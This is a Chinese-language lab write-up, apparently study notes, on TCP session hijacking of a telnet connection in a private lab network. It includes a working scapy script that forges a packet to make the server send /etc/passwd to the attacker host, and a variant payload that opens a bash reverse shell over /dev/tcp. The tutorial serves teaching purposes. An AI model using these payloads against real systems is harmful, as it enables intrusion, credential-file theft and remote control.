

# TCP会话劫持攻击背景

一台计算机可以有多个并发的TCP会话，因此它需要知道一个数据包属于哪一个TCP会话。TCP使用4元组来唯一确定一个会话：
源IP地址、目的IP地址、源端口号、目的端口号，这4个域称为TCP会话的特征。

为了伪造数据包，除了上面四个特征必须符合外，还有一个关键的序列号必须符合

如果接收方是telnet服务器，那从发送方到接收方的数据就是命令，一旦控制了该会话，就可以让telnet服务器运行攻击者的命令，
这就是把这类攻击称为TCP会话劫持的原因

## 发动TCP会话劫持攻击

**实验目标**：劫持客户端，在服务端用受害者权限运行命令  
1、客户端telnet连接到服务端  
2、Wireshark中找到客户端发给服务端的最后一个telnet数据包  


!!! Note

    客户端发给服务端最后一个数据包是ACK包，不包含任何数据，因此不占用任何序列号

3、宿主机启动TCP接收服务    
一旦攻击命令在服务端上执行成功，就可以通过命令把输出发送到宿主机启动的服务器上  


-lv是等待连接，并输出来自这个连接的任何内容  

4、将服务端输出重定向到宿主机  
服务端执行命令：  
  

宿主机收到：


上面这个实验是说明原理的，实际攻击者不可能访问服务器。下面用scapy来实现这个攻击。

```python
#!/usr/bin/python3
import sys
from scapy.all import *

print("SENDING SESSION HIJACKING PACKET.....")
client_addr = "192.168.230.151"
server_addr = "192.168.230.150"

IPLayer = IP(src=client_addr, dst=server_addr)
TCPLayer = TCP(sport=38276, dport=23, flags="A", seq=2833231448, ack=1828464701)
Data = "\r cat /etc/passwd > /dev/tcp/192.168.230.1/9090\r"
pkt = IPLayer/TCPLayer/Data
ls(pkt)
send(pkt, verbose=0)
```

1、宿主机起nc服务  
2、宿主机发动攻击  
宿主机执行：
```bash
sudo python sessionhijack.py
```

可以看到服务端的passwd重定向到了宿主机：


!!! warning

    实验实际做下来，第一次没有劫持成功，重新wireshark取数据，更新脚本数值，第二次成功了，要多试几次

!!! Note

    脚本攻击中还必须设置ACK位，就是wireshark中的Acknowledgment Number。  
    当攻击过程中如果客户端还是持续地输入，那么序列号就不容易写正确，这时可以做一个估计N + 100，这样受害者
    输入长度到的时候就会触发伪造数据，为了使伪造数据不与受害者数据混淆，故加入\r

## TCP劫持攻击连接的过程

上一个实验对客户端和服务端的连接是破坏性的，攻击者发的伪造包，服务端收到后回复给了客户端，而客户端没有到达
这个序列号，会认为是无效的，就会丢弃。这样服务端没有收到确认就会重发，从而一直被客户端丢弃。

另一方面，如果客户端telnet程序输入时，序列号已经被占用，服务器会视为重复数据，不予理睬，而客户端就会重发。
一段时间后，双方TCP连接被断开。

## 创建反向shell

步骤和上面都一样，只是脚本中Data改成：
```python
Data = "\r /bin/bash -i > /dev/tcp/192.168.230.1/9090 2>&1 0<&1 \r"
```

执行后在宿主机成功获取到了服务端的shell：


!!! Note

    -i 交互模式  
    2>&1 标准错误重定向到1，1已经重定向到宿主机9090端口  
    0<&1 服务端输入重定向到1